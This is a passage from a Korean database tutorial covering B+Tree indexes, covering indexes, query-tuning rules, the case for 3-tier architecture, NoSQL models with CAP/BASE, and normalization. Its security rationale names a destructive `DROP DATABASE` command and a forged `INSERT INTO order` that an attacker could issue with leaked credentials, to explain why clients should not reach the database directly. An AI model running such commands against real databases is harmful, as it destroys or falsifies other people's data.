우리가 1,500페이지 분량의 두꺼운 《데이터베이스 개론》 전공 서적에서 **"트랜잭션 격리 수준"**이라는 단어를 찾는다고 가정해 봅시다.

```mermaid
flowchart LR
    subgraph FullScan["1. 풀 테이블 스캔 (Full Table Scan)"]
        A[1페이지부터] --> B[2페이지...] --> C[3페이지...] --> D[1,500페이지까지 모두 훑음]
    end

    subgraph IndexScan["2. 인덱스 스캔 (Index Scan)"]
        I[책 맨 뒤 '색인' 페이지 펼침] -->|알파벳/가나다 정렬 탐색| J["'트' 항목 -> '트랜잭션 격리 수준' 발견"] -->|페이지 번호 확인| K["782페이지로 다이렉트 점프!"]
    end
```

- **풀 테이블 스캔(Full Table Scan)**: 인덱스가 없는 테이블을 조회할 때 발생합니다. 디스크의 처음 블록부터 끝 블록까지 모든 데이터 블록을 하나도 빠짐없이 순차적으로 I/O(Sequential I/O)합니다. 데이터 건수가 수천만 건으로 늘어날수록 선형적으로 소요 시간이 증가합니다.
- **인덱스 스캔(Index Scan)**: 데이터가 정렬되어 있는 별도의 인덱스 구조체를 먼저 탐색하여 데이터의 물리적 위치(주소 또는 PK)를 알아낸 뒤, 해당 페이지만 콕 집어 디스크에서 랜덤 I/O(Random I/O)로 읽어옵니다.

---

### 4.2 B-Tree와 B+Tree 구조와 검색 원리

관계형 데이터베이스 엔진이 가장 사랑하는 표준 인덱스 알고리즘은 **B+Tree(Balanced Tree의 변형)**입니다.

일반적인 이진 탐색 트리(Binary Search Tree)는 최악의 경우 한쪽으로 노드가 쏠려 `O(N)`의 시간 복잡도로 퇴화하지만, B-Tree 계열은 스스로 균형을 맞추는 자가 균형 트리(Self-Balancing Tree)로서 어떤 값을 찾더라도 언제나 `O(log N)`의 성능을 보장합니다.

```mermaid
flowchart TD
    subgraph RootNode["루트 노드 (Root Node)"]
        R["[ 30 | 70 ]"]
    end

    subgraph BranchNode["브랜치 노드 (Branch / Internal Node)"]
        B1["[ 10 | 20 ]"]
        B2["[ 40 | 50 | 60 ]"]
        B3["[ 80 | 90 ]"]
    end

    subgraph LeafNode["리프 노드 (Leaf Node - 양방향 연결 리스트)"]
        L1["[5] <-> [10] <-> [20]"]
        L2["[30] <-> [40] <-> [50]"]
        L3["[60] <-> [70]"]
        L4["[80] <-> [90] <-> [100]"]
    end

    R -->|key < 30| B1
    R -->|30 <= key < 70| B2
    R -->|key >= 70| B3

    B1 --> L1
    B2 --> L2
    B2 --> L3
    B3 --> L4

    L1 <===> L2 <===> L3 <===> L4
```

#### 왜 B-Tree가 아닌 B+Tree를 사용할까요?
1. **리프 노드에만 실제 데이터 포인터 저장**
   - 기존 B-Tree는 루트와 브랜치 노드에도 실제 데이터 포인터를 저장하여 한 블록(보통 16KB)에 담을 수 있는 키의 개수가 적었습니다.
   - B+Tree는 루트와 브랜치 노드에 **오직 키(Key)와 자식 노드 포인터(Child Pointer)**만 저장합니다. 따라서 한 블록에 수백~수천 개의 인덱스 키를 우겨넣을 수 있어 트리의 높이(Depth)가 3~4 수준으로 극단적으로 낮아집니다. (트리 높이가 3이면 수천만 건의 데이터를 단 3번의 I/O만으로 찾습니다!)
2. **리프 노드 간의 양방향 연결 리스트(Doubly Linked List)**
   - 모든 실제 데이터 포인터는 최하단의 **리프 노드(Leaf Node)**에만 존재하며, 리프 노드들끼리는 서로 포인터로 연결되어 있습니다.
   - `WHERE age BETWEEN 20 AND 40`과 같은 **범위 검색(Range Scan)**을 수행할 때, 루트부터 매번 트리를 다시 탈 필요 없이 첫 번째 시작점(20)만 찾은 뒤 리프 노드의 연결 리스트를 타고 순차 탐색(Sequential Scan)을 진행하므로 압도적인 속도를 자랑합니다.

---

### 4.3 클러스터드 인덱스 vs 세컨더리(넌클러스터드) 인덱스

MySQL InnoDB 엔진을 기준으로 인덱스는 크게 두 종류로 나뉩니다.

```mermaid
flowchart TD
    subgraph ClusteredIndex["1. 클러스터드 인덱스 (PK 기반)"]
        CPK[인덱스 키: PK 순서대로 정렬] --> CData[리프 노드 = 실제 행 데이터 자체<br/>(테이블당 단 1개만 존재)]
    end

    subgraph SecondaryIndex["2. 세컨더리 인덱스 (보조 인덱스)"]
        SPK[인덱스 키: email 순서 정렬] --> SData[리프 노드 = 실제 행 대신 PK 값 저장<br/>(테이블당 여러 개 생성 가능)]
    end
    
    SData -.->|PK로 다시 탐색 (더블 룩업)| CPK
```

| 비교 항목 | 클러스터드 인덱스 (Clustered Index) | 세컨더리 인덱스 (Non-Clustered / Secondary Index) |
| :--- | :--- | :--- |
| **테이블당 개수** | **오직 1개** (기본키 PK, 없으면 첫 Unique Not Null) | **여러 개 생성 가능** (업무 요건에 맞춰 추가) |
| **물리적 데이터 정렬** | 실제 데이터 레코드 자체가 인덱스 키 순서로 디스크에 정렬 저장 | 인덱스 페이지만 정렬되어 있고 실제 데이터는 별도 저장 |
| **리프 노드 저장 내용** | **실제 데이터 행의 모든 컬럼 (Row Data)** | **해당 인덱스 컬럼 값 + 클러스터드 키(PK) 값** |
| **조회 성능** | PK 조회 시 단 한 번의 트리 탐색으로 데이터 즉시 획득 (극상) | 인덱스 탐색 후 찾아낸 PK로 클러스터드 인덱스를 한 번 더 탐색 (**더블 룩업**) |

> **💡 성능 최적화의 꽃: 커버링 인덱스(Covering Index)**  
> 세컨더리 인덱스로 검색할 때, 쿼리가 요구하는 모든 컬럼(`SELECT email, name FROM user WHERE email = ?`)이 이미 세컨더리 인덱스 리프 노드에 모두 포함되어 있다면, 굳이 실제 데이터 페이지(클러스터드 인덱스)를 찾아가는 **더블 룩업(Random I/O)**을 생략합니다. 이를 커버링 인덱스라고 부르며 실무 쿼리 튜닝에서 수십 배의 성능 향상을 가져옵니다.

---

### 4.4 인덱스는 공짜가 아니다: CUD 성능 트레이드오프

인덱스를 많이 생성하면 조회(SELECT)는 빨라지지만, 데이터 변경(CUD: INSERT, UPDATE, DELETE)에는 치명적인 대가가 따릅니다.

```mermaid
flowchart TD
    Insert[새 데이터 INSERT] --> Split{리프 노드에<br/>빈 공간이 있는가?}
    Split -->|Yes| Fast[키 순서에 맞게 삽입 완료]
    Split -->|No| PageSplit["페이지 분할 (Page Split) 발생!<br/>1. 새 16KB 페이지 할당<br/>2. 기존 데이터 절반 이동<br/>3. 상위 브랜치 노드 키 갱신<br/>-> 디스크 I/O 폭증 & 락 경합"]
```

1. **INSERT 오버헤드와 페이지 분할(Page Split)**
   - 인덱스는 항상 정렬 상태를 유지해야 합니다. 새로운 레코드가 들어갈 리프 노드 페이지가 꽉 차 있으면, 엔진은 새로운 페이지를 할당받고 기존 데이터를 절반 옮겨 담는 **페이지 분할(Page Split)**을 수행합니다. 이는 대량의 디스크 I/O와 락(Lock)을 유발하여 시스템을 급격히 느려지게 만듭니다.
2. **DELETE 오버헤드와 인덱스 단편화(Fragmentation)**
   - 인덱스에서 행을 삭제하면 노드에서 실제로 데이터를 즉시 지우지 않고 **'사용 안 함(Deleted)'** 마킹만 해둡니다. 실제 데이터는 10만 건인데 인덱스 크기는 1,000만 건 분량을 차지하는 인덱스 비대화 및 단편화가 발생합니다.
3. **UPDATE 오버헤드**
   - 인덱스에 포함된 컬럼이 수정되면, 엔진은 내부적으로 기존 인덱스 키를 삭제 마킹하고 새로운 키 위치에 새로 삽입하는 이중 작업을 처리해야 합니다.

---

### 4.5 실전 인덱스 설계 및 튜닝 4대 황금률

1. **카디널리티(Cardinality)와 선택도(Selectivity)가 높은 컬럼을 선택하라**
   - **카디널리티**: 고유한 값(Unique Value)의 개수입니다.
   - 성별(`남`, `여`)처럼 카디널리티가 극히 낮은 컬럼에 인덱스를 걸면 전체 데이터의 50%를 읽어야 하므로 옵티마이저는 인덱스를 버리고 풀 테이블 스캔을 선택합니다.
   - 주민등록번호, 이메일, 주문번호처럼 **중복도가 낮고 유니크한 컬럼(선택도 5~10% 이하)**에 인덱스를 걸어야 최고의 효율을 발휘합니다.
2. **복합 인덱스(Composite Index)는 컬럼 순서가 생명이다**
   - 두 개 이상의 컬럼으로 인덱스를 구성할 때, **선행 컬럼이 정렬되어야 후행 컬럼이 정렬**됩니다.
   - 전화번호부에서 `(성, 이름)` 순으로 정렬되어 있다면 `WHERE 성 = '김'`은 찾을 수 있지만, 성은 모르고 `WHERE 이름 = '길동'`만으로는 전화번호부 색인을 탈 수 없습니다.
   - **규칙**: 동치 조건(`=`)으로 자주 조회되는 컬럼을 앞쪽에, 범위 조건(`<`, `>`, `BETWEEN`, `LIKE`)으로 조회되는 컬럼을 뒤쪽에 배치해야 합니다.
3. **인덱스 컬럼의 좌변을 가공하지 마라 (최악의 안티패턴)**
   - DBMS는 인덱스 키의 원본 값을 정렬해 두었지, 함수로 가공된 결과를 저장하고 있지 않습니다.

```sql
-- ❌ 나쁜 예: 인덱스 컬럼을 함수로 감싸거나 연산함 (Full Table Scan 발생!)
SELECT * FROM users WHERE SUBSTRING(name, 1, 3) = 'Kim';
SELECT * FROM orders WHERE total_price * 1.1 > 100000;
SELECT * FROM members WHERE DATE(created_at) = '2026-09-20';

-- ⭕ 좋은 예: 인덱스 컬럼은 원본 그대로 두고 우변(비교값)을 가공함 (Index Range Scan 정상 동작)
SELECT * FROM users WHERE name LIKE 'Kim%';
SELECT * FROM orders WHERE total_price > 100000 / 1.1;
SELECT * FROM members WHERE created_at >= '2026-09-20 00:00:00' 
                        AND created_at < '2026-09-21 00:00:00';
```

4. **실행 계획(EXPLAIN)을 통해 인덱스 사용 여부를 반드시 검증하라**
   - SQL 앞에 `EXPLAIN`을 붙여 옵티마이저가 어떤 인덱스를 타는지 확인합니다.
   - `type` 컬럼이 `const`, `ref`, `range`라면 인덱스를 정상적으로 활용하는 것이며, `ALL`(Full Table Scan) 또는 `index`(Full Index Scan)라면 즉시 쿼리나 인덱스 설계를 수정해야 합니다.

---

## 05. 왜 앱과 DB를 바로 연동하지 않나요?
> **2-Tier vs 3-Tier 아키텍처 비교, DB 보안성, 비즈니스 로직 중앙 집중화, 커넥션 풀(HikariCP) 고갈 방지 및 무상태 확장성**

과거 클라이언트-서버(C/S) 소프트웨어 시절에는 Visual Basic이나 Delphi로 개발된 클라이언트 프로그램이 데이터베이스에 직접 접속하여 쿼리를 날리곤 했습니다. 하지만 오늘날 수천만 명이 사용하는 모바일 앱이나 웹 서비스에서는 스마트폰이나 브라우저가 데이터베이스에 직접 접속하는 시스템을 절대로 만들지 않습니다. 왜 반드시 중간에 백엔드 API 서버(WAS)를 두어야만 할까요?

---

### 5.1 2-Tier vs 3-Tier 아키텍처의 구조적 대결

```mermaid
flowchart TD
    subgraph TwoTier["1. 과거의 2-Tier 아키텍처 (위험 & 비효율)"]
        App1[스마트폰 앱 / PC 클라이언트] -->|공인 인터넷망 직통 접속<br/>DB 드라이버 직접 탑재<br/>SELECT * FROM user| DB1[(데이터베이스<br/>공인 IP 노출)]
        App2[스마트폰 앱 2] -->|직통 접속| DB1
        App3[스마트폰 앱 N...] -->|직통 접속| DB1
    end

    subgraph ThreeTier["2. 현대의 3-Tier 아키텍처 (표준 & 안전)"]
        C1[클라이언트 1] -->|HTTPS REST API / JSON| WAS[애플리케이션 계층<br/>WAS / Spring / Node / Django<br/>커넥션 풀 관리 & 인증 & 로직]
        C2[클라이언트 2] -->|HTTPS REST API| WAS
        C3[클라이언트 N...] -->|HTTPS REST API| WAS
        WAS -->|사설망 Private Subnet 직통<br/>미리 맺어둔 커넥션 재사용| DB2[(데이터베이스<br/>외부 접속 원천 차단)]
    end
```

2-Tier 아키텍처는 클라이언트가 데이터베이스의 드라이버(JDBC, ODBC)를 직접 품고 SQL을 직접 실행하는 구조입니다. 반면 3-Tier 아키텍처는 **클라이언트(Presentation Tier)**와 **데이터베이스(Data Tier)** 사이에 **비즈니스 로직 서버(Application Tier / WAS)**를 필수적인 완충재로 배치합니다.

---

### 5.2 직통 연동을 금지하는 4대 핵심 사유

#### 1. 치명적인 보안성 붕괴 (DB 계정 탈취 및 공인 IP 노출)
- 스마트폰 앱의 APK나 바이너리 파일은 누구나 디컴파일(Decompile)하여 내부 문자열을 뜯어볼 수 있습니다. 만약 앱이 DB에 직접 연동한다면, 소스 코드에 하드코딩된 **데이터베이스 접속 주소, 포트(3306), 유저 ID, 비밀번호**가 전 세계에 고스란히 유출됩니다.
- 공격자는 즉시 데이터베이스에 접속하여 `DROP DATABASE`를 실행하거나 고객의 모든 민감 데이터를 유출할 수 있습니다.
- 또한 전 세계 누구나 접속할 수 있도록 DB 서버를 공인 인터넷(Public IP)에 노출해야 하므로 디도스(DDoS)와 무차별 대입 공격(Brute Force)의 먹잇감이 됩니다. 3-Tier에서는 DB를 인터넷과 완전히 단절된 **사설 서브넷(Private Subnet)**에 격리하고 방화벽으로 오직 WAS의 사설 IP만 허용합니다.

#### 2. 비즈니스 로직과 데이터 무결성의 붕괴
- 비즈니스 정책(예: "VIP 회원은 결제 시 10% 할인되며, 재고가 0이면 주문할 수 없다")을 클라이언트 앱 내부에 작성해 두면, 해커가 루팅된 스마트폰에서 클라이언트 코드를 조작하여 100만 원짜리 명품 시계를 0원으로 `INSERT INTO order` 쿼리를 조작해 날릴 수 있습니다.
- 3-Tier 아키텍처에서는 모든 유효성 검증(Validation), 권한 인가(Authorization), 트랜잭션 비즈니스 로직이 안전한 백엔드 서버에서 실행되므로 클라이언트의 데이터 위·변조를 완벽히 통제할 수 있습니다.
- 또한 로직이 수정되었을 때, 2-Tier는 모든 사용자에게 앱스토어 업데이트를 강제해야 하지만, 3-Tier는 백엔드 서버만 단 한 번 재배포하면 즉시 모든 클라이언트에 새로운 비즈니스 정책이 적용됩니다.

#### 3. DB 커넥션 풀(Connection Pool) 고갈과 시스템 크래시

데이터베이스에 새로운 TCP 연결(Connection)을 맺는 것은 운영체제 관점에서 대단히 무거운 고비용 작업입니다.

```mermaid
sequenceDiagram
    autonumber
    participant App as 클라이언트 / WAS
    participant DB as 데이터베이스

    Note over App,DB: [1. TCP 3-Way Handshake]
    App->>DB: SYN
    DB->>App: SYN+ACK
    App->>DB: ACK

    Note over App,DB: [2. TLS/SSL 보안 핸드셰이크]
    App->>DB: Client Hello / 인증서 교환

    Note over App,DB: [3. DB 인증 및 세션 프로세스 스폰]
    App->>DB: 사용자 인증(ID/PW 해시 전송)
    DB->>DB: 사용자 권한 검증 및 세션 메모리(스레드/버퍼) 할당
    DB-->>App: 연결 수립 완료 (평균 50~100ms 이상 소요!)
```

- 데이터베이스 엔진이 동시에 유지할 수 있는 최대 연결 개수(`max_connections`)는 하드웨어 메모리 한계로 인해 보통 수백 개에서 최대 수천 개 수준으로 엄격히 제한됩니다.
- 만약 모바일 앱 사용자 10만 명이 앱을 켜면서 각자 DB와 직접 연결을 맺으려 한다면, DB는 수 초 만에 메모리가 바닥나 `ERROR 1040: Too many connections` 에러를 뿜으며 즉시 프로세스가 다운(OOM Crash)됩니다.
- **해결책**: 백엔드 서버(WAS) 계층에서 **커넥션 풀(Connection Pool, 예: HikariCP)**을 도입합니다. WAS가 시작될 때 미리 정해진 적정 개수(예: 30~50개)의 DB 연결을 미리 맺어 풀에 담아두고, 수만 명의 사용자로부터 들어오는 가벼운 HTTP/JSON 요청들을 번갈아 가며 빠르게 처리한 뒤 즉시 반납받아 재사용합니다.

#### 4. 시스템 수평 확장성(Scale-out)의 확보
- 데이터베이스는 상태(Stateful)를 저장하는 시스템이므로 무한정 서버를 늘리기(Scale-Out)가 매우 어렵습니다.
- 반면 백엔드 API 서버는 사용자 세션을 외부 캐시(Redis)로 분리하면 완벽한 **무상태(Stateless)** 서버가 됩니다. 트래픽이 폭증하면 L4 로드 밸런서 뒤에 WAS 서버 인스턴스를 10대, 100대로 자유롭게 오토스케일링(Scale-Out)하여 트래픽을 분산할 수 있습니다.
- 또한 WAS 계층이 존재해야만 Redis 캐시 계층을 두어 DB 부하를 90% 이상 덜어내거나, 쓰기 전용 DB(Master)와 읽기 전용 DB(Read Replica)로 쿼리를 라우팅하는 정교한 분산 아키텍처를 구현할 수 있습니다.

---

## 06. NoSQL은 SQL이 아닌가요?
> **Not Only SQL의 진정한 본질, RDBMS의 스케일아웃 한계 극복, 4대 NoSQL 데이터 모델 완벽 비교 및 CAP/BASE 이론**

빅데이터와 실시간 분산 시스템의 시대가 열리며 전 세계 소프트웨어 아키텍처를 뒤흔든 키워드는 바로 **NoSQL**이었습니다. 흔히 NoSQL을 "SQL을 쓰지 않는 데이터베이스"로 오해하곤 합니다. 하지만 NoSQL의 진정한 의미는 **"Not Only SQL"**, 즉 "관계형 데이터베이스(SQL)뿐만 아니라, 상황에 맞는 다양한 최적의 데이터 저장소를 함께 쓰자"는 기술적 유연성을 뜻합니다.

---

### 6.1 RDBMS의 수평 확장(Scale-out) 한계와 NoSQL의 태동

전통적인 RDBMS는 단일 서버 환경에서 ACID 트랜잭션과 데이터의 정규화를 극한까지 추구하도록 설계되었습니다.

```mermaid
flowchart TD
    subgraph ScaleUp["1. RDBMS의 수직 확장 (Scale-Up)"]
        DB_Small[작은 DB 서버<br/>4 Core / 16GB] -->|CPU, RAM 업그레이드| DB_Giant[초고가 메인프레임<br/>128 Core / 1TB<br/>비용이 기하급수적으로 폭증하며<br/>물리적 한계에 봉착!]
    end

    subgraph ScaleOut["2. NoSQL의 수평 확장 (Scale-Out)"]
        Node1[저렴한 범용 노드 1] --- Node2[노드 2]
        Node2 --- Node3[노드 3]
        Node3 --- NodeN[수백 대의 노드 증설...]
        style ScaleOut fill:#eef9ee,stroke:#55aa55
    end
```

트래픽이 폭증할 때 RDBMS가 맞닥뜨리는 한계는 다음과 같습니다.
1. **샤딩(Sharding)의 극단적 복잡성**: 테이블을 여러 DB 서버에 쪼개어 저장(샤딩)하는 순간, 여러 노드에 걸친 분산 조인(Distributed JOIN) 연산은 네트워크 병목으로 인해 쿼리 수행 시간이 수십 초로 곤두박질칩니다.
2. **분산 트랜잭션(2-Phase Commit)의 비용**: 서로 다른 물리 서버에 위치한 데이터의 ACID를 보장하기 위해 2PC를 사용하면 노드 간 네트워크 왕복 지연으로 인해 시스템 처리량이 10분의 1 이하로 급감합니다.
3. **고정된 스키마(Rigid Schema)의 경직성**: 소셜 미디어 게시글, IoT 센서 데이터, 게임 로그처럼 필드가 시시각각 변하고 비정형적인 데이터를 다루기에는 엄격한 테이블 DDL 구조가 개발 생산성을 가로막습니다.

NoSQL은 이러한 한계를 돌파하기 위해 **"엄격한 관계와 복잡한 조인을 포기하는 대신, 수평 확장(Scale-out)과 초고속 읽기/쓰기를 얻겠다"**는 사상으로 탄생했습니다.

---

### 6.2 NoSQL의 4대 데이터 모델 완벽 비교

NoSQL은 데이터를 저장하는 자료구조에 따라 4가지 진영으로 뚜렷하게 나뉩니다.

```mermaid
mindmap
  root((NoSQL 4대 모델))
    Key-Value 저장소
      Redis / Memcached / DynamoDB
      O 1 초고속 해시 탐색
      세션 / 캐싱 / 순위표
    Document 저장소
      MongoDB / Couchbase
      JSON / BSON 반정형 문서
      유연한 스키마 / 전자상거래 카탈로그
    Wide-Column 저장소
      Apache Cassandra / HBase
      컬럼 패밀리 / LSM-Tree
      초고속 대규모 쓰기 / IoT 센서 / 시계열
    Graph 저장소
      Neo4j / Amazon Neptune
      노드 Node 와 엣지 Edge
      인덱스 프리 인접성 / SNS 관계 / 추천
```

#### 1. Key-Value 저장소 (Key-Value Store)
- **대표 제품**: Redis, Memcached, AWS DynamoDB
- **특징**: 고유한 키(Key)와 이에 매핑되는 임의의 값(Value)만을 저장하는 가장 단순하고 빠른 모델입니다. 내부적으로 해시 테이블(Hash Table)을 사용하여 `O(1)`의 초고속 조회를 보장합니다.
- **적합한 유스케이스**: 사용자 로그인 세션 관리, 실시간 랭킹 순위표, API 응답 캐싱, 장바구니.

#### 2. Document 저장소 (Document Store)
- **대표 제품**: MongoDB, Couchbase
- **특징**: 데이터를 JSON 또는 BSON(Binary JSON) 포맷의 자기 기술적(Self-describing) 문서 형태로 저장합니다. 문서 내부에 중첩된 객체(Nested Object)와 배열(Array)을 자유롭게 포함할 수 있어 객체지향 프로그래밍의 객체 모델과 1:1로 자연스럽게 매핑됩니다.
- **적합한 유스케이스**: 스키마가 수시로 변하는 이커머스 상품 카탈로그, CMS(콘텐츠 관리 시스템), 모바일 앱 백엔드.

#### 3. Wide-Column / Column-Family 저장소
- **대표 제품**: Apache Cassandra, Google Bigtable, Apache HBase
- **특징**: 구글의 Bigtable 논문을 기반으로 발전했습니다. 전통적인 RDBMS가 행(Row) 단위로 데이터를 디스크에 연속 저장하는 것과 달리, **컬럼 단위(Column-Family)**로 묶어 연속 저장합니다. LSM-Tree(Log-Structured Merge-tree) 구조를 취하여 수평 노드 수백 대에 걸쳐 초당 수백만 건의 쓰기(Write) 연산을 병목 없이 처리합니다.
- **적합한 유스케이스**: 대규모 IoT 센서 데이터 수집, 금융 시계열(Time-series) 데이터, 접속 로그 분석.

#### 4. Graph 데이터베이스 (Graph Database)
- **대표 제품**: Neo4j, Amazon Neptune
- **특징**: 데이터를 **노드(Node: 개체)**와 **엣지(Edge: 관계)**, 그리고 **프로퍼티(Property: 속성)**로 표현합니다. RDBMS는 관계를 추적할 때마다 무거운 JOIN을 반복하지만, 그래프 DB는 데이터 간의 관계를 물리적인 메모리 포인터로 미리 연결해 두는 **인덱스 프리 인접성(Index-Free Adjacency)**을 제공합니다. 친구의 친구의 친구를 탐색하는 복잡한 다단계 관계 조회가 `O(1)`에 가깝게 동작합니다.
- **적합한 유스케이스**: 페이스북/인스타그램의 소셜 네트워크 관계망, 금융 이상 거래 탐지(FDS: Fraud Detection), 실시간 상품 추천 엔진.

| 구분 | Key-Value (Redis) | Document (MongoDB) | Wide-Column (Cassandra) | Graph (Neo4j) |
| :--- | :--- | :--- | :--- | :--- |
| **데이터 모델** | Key-Value 쌍 | JSON/BSON 계층 문서 | 키-컬럼 패밀리 맵 | 노드-관계 그래프 |
| **스키마 유연성** | 무스키마 (자유로움) | 유연한 동적 스키마 | 컬럼 단위 동적 스키마 | 노드/엣지 속성 자유 |
| **트랜잭션 지원** | 단일 키 수준 보장 | 단일 문서(다중 지원 확대) | 조정 가능한 일관성 (Tunable) | 완전한 ACID 지원 |
| **수평 확장성** | 매우 뛰어남 (클러스터) | 매우 뛰어남 (샤딩) | **환상적 (선형적 확장)** | 분산 클러스터링 다소 복잡 |
| **주요 장점** | 극단적인 처리 속도 (`O(1)`) | 직관적 개발 생산성 | 막대한 대용량 쓰기 처리 | 복잡한 관계망 초고속 탐색 |

---

### 6.3 분산 시스템의 절대 법칙: CAP 이론과 BASE 철학

에릭 브루어(Eric Brewer) 교수가 제안한 **CAP 정리**는 분산 네트워크 환경에서 데이터베이스 시스템이 직면하는 물리적 한계를 수학적으로 규명했습니다.

```mermaid
flowchart TD
    subgraph CAP["CAP 이론 (세 가지 중 최대 2가지만 충족 가능)"]
        C["Consistency (일관성)<br/>모든 노드는 어느 순간이든<br/>완벽히 동일한 데이터를 반환함"]
        A["Availability (가용성)<br/>일부 노드가 다운되어도 모든 요청은<br/>언제나 에러 없이 응답을 반환함"]
        P["Partition Tolerance (분할 내구성)<br/>노드 간 네트워크 단절이 발생해도<br/>전체 시스템은 계속 동작함"]
    end
    
    C --- CA["CA 시스템<br/>(RDBMS: Oracle, MySQL 단일)<br/>*분산 환경에선 네트워크 분할(P)이<br/>필연적이므로 실질적 선택 불가"] --- A
    A --- AP["AP 시스템<br/>(가용성 최우선)<br/>Cassandra, DynamoDB, CouchDB"] --- P
    P --- CP["CP 시스템<br/>(일관성 최우선)<br/>MongoDB, HBase, Redis Cluster"] --- C
```

1. **일관성 (Consistency)**: 어떤 노드에 읽기 요청을 보내도 가장 최근에 쓰인 동일한 최신 데이터를 반환해야 합니다.
2. **가용성 (Availability)**: 시스템의 일부 노드에 장애가 발생하더라도 정상 노드들은 클라이언트의 요청에 대해 언제나 실패(Error) 없이 성공 응답을 반환해야 합니다.
3. **분할 내구성 (Partition Tolerance)**: 노드와 노드 사이를 잇는 네트워크 케이블이 끊어지거나 패킷이 유실되어도 전체 분산 클러스터는 멈추지 않고 동작해야 합니다.

> **분산 시스템의 냉혹한 현실**  
> 전 세계 데이터센터를 잇는 분산 네트워크에서 네트워크 장애(Partition)는 피할 수 없는 현실입니다. 따라서 **분할 내구성(P)은 필수 전제**가 되며, 결국 모든 분산 데이터베이스는 **일관성을 지키기 위해 가용성을 일부 포기하는 CP 시스템**이 될 것인지, 아니면 **가용성을 지키기 위해 일관성을 일부 양보하는 AP 시스템**이 될 것인지 선택해야 합니다.

#### ACID에 대항하는 NoSQL의 철학: BASE
NoSQL은 완벽한 즉시 일관성(ACID)을 고집하지 않는 대신 다음과 같은 **BASE** 모델을 지향합니다.
- **Basically Available (기본적 가용성)**: 시스템에 장애가 발생해도 부분적인 가용성을 항상 보장합니다.
- **Soft State (유연한 상태)**: 외부의 새로운 갱신 입력이 없더라도 노드 간의 데이터 동기화 과정으로 인해 데이터의 상태가 시간에 따라 변할 수 있습니다.
- **Eventual Consistency (궁극적 일관성)**: 쓰기 작업 직후에는 일시적으로 노드 간 데이터 불일치가 발생할 수 있으나, 일정 시간(수백 밀리초)이 흐르고 네트워크 동기화가 완료되면 결국 모든 노드의 데이터가 완벽히 동일해집니다.

---

## (+) 정규화(Normalization)란 무엇인가요?
> **데이터 중복이 부르는 3대 이상 현상, 제1정규형에서 BCNF까지의 단계별 분해, 실전 반정규화(De-normalization) 전략**

관계형 데이터베이스 설계의 가장 기초적이면서도 강력한 수학적 정제 기법이 바로 **정규화(Normalization)**입니다. 잘못 설계된 하나의 비대한 테이블은 사소한 데이터 변경에도 치명적인 부작용을 일으킵니다. 정규화는 과연 어떤 원리로 데이터 무결성을 구원할까요?

---

### 1. 데이터 중복이 낳는 괴물: 3대 이상 현상(Anomalies)

정규화되지 않고 모든 정보(학생, 학과, 교수)가 하나의 거대한 테이블에 뒤섞여 있는 상황을 살펴봅시다.

| 학번 (PK) | 학생명 | 수강과목코드 (PK) | 과목명 | 지도교수 | 학과위치 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 202601 | 김철수 | CS101 | 컴퓨터개론 | 홍길동 | IT관 301호 |
| 202601 | 김철수 | CS102 | 자료구조 | 홍길동 | IT관 301호 |
| 202602 | 이영희 | CS101 | 컴퓨터개론 | 홍길동 | IT관 301호 |

이 테이블은 다음과 같은 **3대 이상 현상(Anomalies)**을 유발합니다.

```mermaid
flowchart TD
    Anomaly["데이터 중복으로 인한 3대 이상 현상"]
    
    Anomaly --> Insert["1. 삽입 이상 (Insertion Anomaly)<br/>불필요한 정보를 함께 넣지 않으면<br/>원하는 데이터를 삽입할 수 없음!<br/>(예: 학생 없는 신설 과목 개설 불가 - PK 학번이 NULL이 됨)"]
    Anomaly --> Delete["2. 삭제 이상 (Deletion Anomaly)<br/>한 데이터를 지웠을 때 원치 않는<br/>중요한 다른 정보까지 함께 영구 소멸됨!<br/>(예: 이영희가 수강 취소 시 CS101 과목 정보가 통째로 삭제될 위험)"]
    Anomaly --> Update["3. 갱신 이상 (Update Anomaly)<br/>중복된 튜플 중 일부만 수정되어<br/>데이터 간 불일치가 발생함!<br/>(예: 홍길동 교수의 학과위치가 바뀌었을 때 1건만 수정되면 같은 교수인데 방이 달라짐)"]
```

---

### 2. 함수 종속성(Functional Dependency)의 기초

정규화는 **함수 종속성(Functional Dependency)**을 분석하여 연관된 속성끼리 테이블을 쪼개어 나가는 과정입니다.  
어떤 릴레이션에서 속성 X의 값을 알면 속성 Y의 값이 오직 하나로 결정될 때, **"Y는 X에 함수적으로 종속된다"**고 말하며 기호로는 **X → Y** (X: 결정자, Y: 종속자)로 표기합니다. (예: `주민등록번호` → `이름, 생년월일, 성별`)

---

### 3. 단계별 정규화 과정 (1NF ~ BCNF)

실무에서 데이터 무결성을 보장하기 위해 준수하는 1단계부터 BCNF까지의 정규화 과정을 명쾌하게 정리합니다.

```mermaid
flowchart LR
    UnNorm[비정규 테이블] -->|도메인이 원자값| 1NF[제1정규형 1NF]
    1NF -->|부분 함수 종속 제거| 2NF[제2정규형 2NF]
    2NF -->|이행적 함수 종속 제거| 3NF[제3정규형 3NF]
    3NF -->|모든 결정자가 후보키| BCNF[보이스-코드 BCNF]
```

#### 제1정규형 (1NF: First Normal Form)
- **원칙**: 테이블의 모든 컬럼 도메인이 더 이상 쪼갤 수 없는 **원자값(Atomic Value)**으로만 구성되어야 합니다. (반복 그룹 및 다중값 제거)
- **위반 사례**: 한 회원의 `취미` 컬럼에 `"축구, 독서, 영화"`처럼 쉼표로 구분된 다중값이 들어있는 경우.
- **해결**: 다중값을 가진 컬럼을 별도의 행으로 분리하거나 자식 테이블로 독립시킵니다.

#### 제2정규형 (2NF: Second Normal Form)
- **원칙**: 제1정규형을 만족하고, 기본키가 아닌 모든 일반 속성이 기본키 전체에 **완전 함수 종속(Full Functional Dependency)**해야 합니다. 즉, **부분 함수 종속(Partial Functional Dependency)**을 제거합니다.
- **발생 조건**: 기본키가 2개 이상의 컬럼으로 묶인 **복합키(Composite PK)**일 때 주로 발생합니다.
- **위반 사례**: 복합 기본키가 `(학번, 과목코드)`인데, `과목명` 컬럼은 학번과는 무관하고 오직 `과목코드`에만 종속되는 경우.
- **해결**: 부분 종속되는 속성(`과목코드`, `과목명`)을 별도의 테이블로 분리합니다.

#### 제3정규형 (3NF: Third Normal Form)
- **원칙**: 제2정규형을 만족하고, 기본키가 아닌 일반 속성들 간의 **이행적 함수 종속(Transitive Functional Dependency)**을 제거해야 합니다.
- **개념**: A → B 이고 B → C 일 때, 논리적으로 A → C 가 성립하는 종속 관계를 의미합니다.
- **위반 사례**: `학번(PK)` → `학과코드` 이고, `학과코드` → `학과사무실위치` 일 때, 학과사무실위치는 학번에 이행적으로 종속됩니다.
